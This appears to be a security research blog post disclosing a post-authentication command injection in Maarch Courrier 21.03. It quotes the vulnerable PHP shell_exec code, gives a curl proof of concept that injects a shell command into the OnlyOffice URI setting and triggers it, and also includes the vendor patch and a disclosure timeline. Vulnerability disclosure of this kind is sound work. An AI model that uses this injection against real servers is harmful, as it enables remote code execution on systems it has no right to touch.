







# Maarch Courrier 21.03 - Remote Code Execution

## Introduction

This training session was focused on white-box code review and runtime introspection.\
A few labs were suggested, but the one that peaked our attention was a web php solution named [Maarch Courrier](https://maarch.com/maarch-courrier/).\
The source code is available in their [MaarchCourrier Gitlab](https://labs.maarch.org/maarch/MaarchCourrier), and the version we assessed was the dockerhub image `maarch/maarchcourrier:21.03`.

The software is described as follows:

> Maarch Courrier is an Electronic Correspondence Manager (postal mail, email, etc.) and Electronic Document Management

This article covers a single post auth RCE in detail, but many more articles are to come.\
As a matter of fact, the present disclosure roughly covers 15% of what has been found during the training.\
Many issues haven't been disclosed yet due to extremely slow interactions with the vendor, but that's another story!

## Remote Code Execution

### Description of the vulnerability

A command injection vulnerability has been discovered in the Maarch Courrier software. This vulnerability allows an attacker with access to an administrator account to execute commands on the server on which Maarch Courrier is installed.

The attacker can then use this access to perform malicious actions such as deleting or modifying confidential data, interfering with software availability or the integrity of exchanged data. The most interesting points being having access to the victim's internal network and potential secrets lying in the server.

The vulnerability can be exploited by injecting malicious commands via the user interface of the Maarch Courrier Software configuration, and trigger them with a second interaction. The configuration submitted suffer form a lack of sanitization, leading to command injection.

### Walkthrough

The vulnerability is present in the administration settings



Then in `Autre(s)` and `Éditeurs de documents` finally in `Onlyoffice` or `CollaboraOnline`



Upon modification the above fields, (i.e. change the server URI parameter), a **PUT** request is made to the **REST API** on the endpoint `/rest/configurations/admin_document_editors`, which we can display nicely as shown below with a proxy like **Burp Suite**.



However, it is possible to modify the above fields, in particular the URI field, in order to inject a command.



Here is the example of a cURL command that allows an attacker to exfiltrate data with an HTTP request on our (disposable) attacking domain `kymbesnitwoa7yazn0qfkkgdt4zvnobd.oastify.com`, which is under our control.\
Next, a **GET** request is sent to the endpoint `/rest/onlyOffice/available` in order to perform the connection test on our **onlyOffice** instance, which will trigger the command execution.



We can now check on our attacking domain whether we've received an HTTP request with the result of the shell `id` command.



And indeed, we have received a request from the server where **Maarch Courrier** is installed.

## White-Box Audit

For this vulnerability, the vulnerable code is present in the method in the **isAvailable** method from:

- `/html/MaarchCourrier/src/app/contentManagement/controllers/DocumentEditorController.php`

```php
[...]
    public static function isAvailable(array $args)
    {
        ValidatorModel::notEmpty($args, ['uri', 'port']); // Parameter validation
        ValidatorModel::stringType($args, ['uri', 'port']); // Parameter validation

        $aUri = explode("/", $args['uri']); // Input cleanup attempt
        $exec = shell_exec("nc -vz -w 5 {$aUri[0]} {$args['port']} 2>&1"); // Injection point

        if (strpos($exec, 'not found') !== false) {
            return ['errors' => 'Netcat command not found', 'lang' => 'preRequisiteMissing'];
        }

        return strpos($exec, 'succeeded!') !== false || strpos($exec, 'open') !== false || strpos($exec, 'Connected') !== false;
    }
[...]
```

Indeed, in this case, the **netcat (nc)** software is called using a PHP `shell_exec()` function, with the only verification of a user input being to truncate at the first `/` occurence with the PHP `explode()` function.

Subsequently, the `isAvailable` method is called in two places to check that an **(IP or DOMAIN) and PORT** is reachable, for **onlyOffice** and **CollaboratorOnline**.

- `/html/MaarchCourrier/src/app/contentManagement/controllers/CollaboraOnlineController.php`

```php
[...]
    public static function isAvailable(Request $request, Response $response)
    {
        $configuration = ConfigurationModel::getByPrivilege(['privilege' => 'admin_document_editors', 'select' => ['value']]);
        $configuration = !empty($configuration['value']) ? json_decode($configuration['value'], true) : [];

        if (empty($configuration) || empty($configuration['collaboraonline'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Collabora Online is not enabled', 'lang' => 'collaboraOnlineNotEnabled']);
        } elseif (empty($configuration['collaboraonline']['uri'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Collabora Online server_uri is empty', 'lang' => 'uriIsEmpty']);
        } elseif (empty($configuration['collaboraonline']['port'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Collabora Online server_port is empty', 'lang' => 'portIsEmpty']);
        }

        $uri  = $configuration['collaboraonline']['uri'];
        $port = (string)$configuration['collaboraonline']['port'];

        $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]); // Called here

        if (!empty($isAvailable['errors'])) {
            return $response->withStatus(400)->withJson($isAvailable);
        }

        return $response->withJson(['isAvailable' => $isAvailable]);
    }
[...]
```

- `/html/MaarchCourrier/src/app/contentManagement/controllers/OnlyOfficeController.php`

```php
[...]
    public function isAvailable(Request $request, Response $response)
    {
        $configuration = ConfigurationModel::getByPrivilege(['privilege' => 'admin_document_editors', 'select' => ['value']]);
        $configuration = !empty($configuration['value']) ? json_decode($configuration['value'], true) : [];

        if (empty($configuration) || empty($configuration['onlyoffice'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Onlyoffice is not enabled', 'lang' => 'onlyOfficeNotEnabled']);
        } elseif (empty($configuration['onlyoffice']['uri'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Onlyoffice server_uri is empty', 'lang' => 'uriIsEmpty']);
        } elseif (empty($configuration['onlyoffice']['port'])) {
            return $response->withStatus(400)->withJson(['errors' => 'Onlyoffice server_port is empty', 'lang' => 'portIsEmpty']);
        }

        $uri  = $configuration['onlyoffice']['uri'];
        $port = (string)$configuration['onlyoffice']['port'];

        $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]); // Called here

        if (!empty($isAvailable['errors'])) {
            return $response->withStatus(400)->withJson($isAvailable);
        }

        return $response->withJson(['isAvailable' => $isAvailable]);
    }
[...]
```

To correct this vulnerability, we suggested to avoid relying on low level binary execution and instead test this connection with php builtins with strict parsing (no regex, a real lib and data structure) of the user inputs.

With this in mind, the patch released should at least implement a strong and strict **validation of every user input** and **only allow intended characters** to prevent attackers from injecting malicious commands.

### Proof of Concept (PoC)

```bash
BEARER=XXX.YYY.ZZZ
# Place the payload
curl -X PUT -H "Authorization: Bearer $BEARER" \
  -H "Content-Type: application/json" -d '{
  "java": {},
  "onlyoffice": {
    "ssl": false,
    "uri": "42.42.42.42; sleep 10;",
    "port": "4242",
    "token": "",
    "authorizationHeader": "Authorization"
  }
}' http://localhost/rest/configurations/admin-document-editors

# Trigger the RCE
curl -H "Authorization: Bearer $BEARER" \
    http://localhost/rest/onlyOffice/available
```

### Patch

The patch can be found here: [GitLab - MaarchCourrier - Commit cba02df3070dd682b76129122adb6eeeb6e8109e](https://labs.maarch.org/maarch/MaarchCourrier/-/commit/cba02df3070dd682b76129122adb6eeeb6e8109e)

```diff
diff --git a/src/app/configuration/controllers/ConfigurationController.php b/src/app/configuration/controllers/ConfigurationController.php
index d9e34b3c990e1c23f59c1188e89be23d72e3ecde..ce0512ec4ee714ac071a512b17bf3cc8b1d9925a 100755
--- a/src/app/configuration/controllers/ConfigurationController.php
+++ b/src/app/configuration/controllers/ConfigurationController.php
@@ -145,6 +145,8 @@ class ConfigurationController
                 } elseif ($key == 'onlyoffice') {
                     if (!Validator::notEmpty()->stringType()->validate($editor['uri'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body onlyoffice['uri'] is empty or not a string"]);
+                    } elseif (!preg_match('/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})([\/\w .-]*)*\/?$|^(https?:\/\/)?((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/', $editor['uri'] ?? null)) {
+                        return $response->withStatus(400)->withJson(['errors' => "Body onlyoffice['uri'] is not a valid URL or IP address"]);
                     } elseif (!Validator::notEmpty()->intVal()->validate($editor['port'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body onlyoffice['port'] is empty or not numeric"]);
                     } elseif (!Validator::boolType()->validate($editor['ssl'] ?? null)) {
@@ -155,6 +157,8 @@ class ConfigurationController
                 } elseif ($key == 'collaboraonline') {
                     if (!Validator::notEmpty()->stringType()->validate($editor['uri'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body collaboraonline['uri'] is empty or not a string"]);
+                    } elseif (!preg_match('/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})([\/\w .-]*)*\/?$|^(https?:\/\/)?((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/', $editor['uri'] ?? null)) {
+                        return $response->withStatus(400)->withJson(['errors' => "Body collaboraonline['uri'] is not a valid URL or IP address"]);
                     } elseif (!Validator::notEmpty()->intVal()->validate($editor['port'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body collaboraonline['port'] is empty or not numeric"]);
                     } elseif (!Validator::boolType()->validate($editor['ssl'] ?? null)) {
@@ -169,6 +173,8 @@ class ConfigurationController
                         return $response->withStatus(400)->withJson(['errors' => "Body office365sharepoint['clientSecret'] is empty or not a string"]);
                     } elseif (!Validator::notEmpty()->stringType()->validate($editor['siteUrl'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body office365sharepoint['siteUrl'] is empty or not a string"]);
+                    } elseif (!preg_match('/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})([\/\w .-]*)*\/?$|^(https?:\/\/)?((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/', $editor['siteUrl'] ?? null)) {
+                        return $response->withStatus(400)->withJson(['errors' => "Body office365sharepoint['uri'] is not a valid URL or IP address"]);
                     }
                     $siteId = Office365SharepointController::getSiteId([
                         'tenantId'     => $editor['tenantId'],
diff --git a/src/app/contentManagement/controllers/CollaboraOnlineController.php b/src/app/contentManagement/controllers/CollaboraOnlineController.php
index 99ed13c99dfad83f14ca7eb1309da4dace3b8073..ee3c5421efdac7f3514b94bf38877099808faa99 100644
--- a/src/app/contentManagement/controllers/CollaboraOnlineController.php
+++ b/src/app/contentManagement/controllers/CollaboraOnlineController.php
@@ -296,7 +296,7 @@ class CollaboraOnlineController
         }
 
         $uri  = $configuration['collaboraonline']['uri'];
-        $port = (string)$configuration['collaboraonline']['port'];
+        $port = (int)$configuration['collaboraonline']['port'];
 
         $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]);
 
diff --git a/src/app/contentManagement/controllers/DocumentEditorController.php b/src/app/contentManagement/controllers/DocumentEditorController.php
index 435ee1cd22bf1cbdd11fd71692a3de174cfab07c..6e97696ad11000780718669cffffd3e1d92c957e 100644
--- a/src/app/contentManagement/controllers/DocumentEditorController.php
+++ b/src/app/contentManagement/controllers/DocumentEditorController.php
@@ -46,7 +46,13 @@ class DocumentEditorController
     public static function isAvailable(array $args)
     {
         ValidatorModel::notEmpty($args, ['uri', 'port']);
-        ValidatorModel::stringType($args, ['uri', 'port']);
+        ValidatorModel::stringType($args, ['uri']);
+        ValidatorModel::intType($args, ['port']);
+
+        $regex = '/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})([\/\w .-]*)*\/?$|^(https?:\/\/)?((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/';
+        if (!preg_match($regex, $args['uri'] ?? null)) {
+            return ['errors' => "Argument uri is not a valid URL or IP address"];
+        }
 
         $aUri = explode("/", $args['uri']);
         $exec = shell_exec("nc -vz -w 5 {$aUri[0]} {$args['port']} 2>&1");
diff --git a/src/app/contentManagement/controllers/OnlyOfficeController.php b/src/app/contentManagement/controllers/OnlyOfficeController.php
index b2718d2c45ffb21a70640c297fa9021321da8626..51a1a6c8e6e49c54f66c2ff5219e6799f92e0768 100644
--- a/src/app/contentManagement/controllers/OnlyOfficeController.php
+++ b/src/app/contentManagement/controllers/OnlyOfficeController.php
@@ -303,7 +303,7 @@ class OnlyOfficeController
         }
 
         $uri  = $configuration['onlyoffice']['uri'];
-        $port = (string)$configuration['onlyoffice']['port'];
+        $port = (int)$configuration['onlyoffice']['port'];
 
         $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]);
 
@@ -327,7 +327,7 @@ class OnlyOfficeController
         }
 
         $uri  = $configuration['onlyoffice']['uri'];
-        $port = (string)$configuration['onlyoffice']['port'];
+        $port = (int)$configuration['onlyoffice']['port'];
 
         $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]);
```

The parameters values are now checked against a regular expression. One can easily visualize it with [regexper](https://regexper.com/):



Now comes the question, is there still room for exploitation?

Well, actually, lzklkfjefjzlfzj ajfzelfjzlzjfelkj! :)

## Timeline

- 19/02/2023 - Initial contact with `support@maarch.org`
- 20/02/2023 - Maarch redirects us to the interlocutor that will manage our report
- 20/02/2023 - Before the disclosure, we ask for an agreement for a CVE process which matters for us & the research field in general
- 21/02/2023 - Maarch accept to follow the CVE process and MITRE declarations
- 28/02/2023 - We are sending the details of the first vulnerability (covered in this article)
- 08/03/2023 - Maarch confirm to us that they took note of the issue (opened here : [https://forge.maarch.org/issues/24124](https://forge.maarch.org/issues/24124))
- 09/03/2023 - We inform that we will follow the [Google Project Zero 90 days Disclosure Policy](https://googleprojectzero.blogspot.com/p/vulnerability-disclosure-policy.html)
- 31/03/2023 - Trying to reach Maarch again - **retry 1**
- 07/04/2023 - Maarch inform us that it will be fixed for the next release in April/May
- 10/04/2023 - We offer to review the patch before release, and thank them for the update
- 07/05/2023 - Trying to reach Maarch again - **retry 2**
- 10/05/2023 - Maarch inform us the patch will be published the `15/05` (nothing about CVE attribution)
- 31/05/2023 - Trying to reach Maarch again - **retry 3**
- 12/07/2023 - Trying to reach Maarch again - **retry 4**

To this day, we are still waiting for an answer and a CVE number.

## Credits : Training lvl-20 | 2023 January

Attendees:

- Alexandre Caravaca / [@Nishacid](https://twitter.com/Nishacid)
- Amina Bali / [@d34dl0ck_](https://twitter.com/d34dl0ck_)
- Elven Colleu / [@Vhelen_](https://twitter.com/Vhelen_)
- Rémi Le Mer / urukaiii

Findings:

- 2 RCEs full chain
- 1 Auth bypass (weak secret)
- 1 Privilege escalation
- 1 SQL injection
- 1 File read
- 2 File write
- 2 SSRF


> Join the next Web Security Trainings at [Offenskill](https://offenskill.com/trainings/)
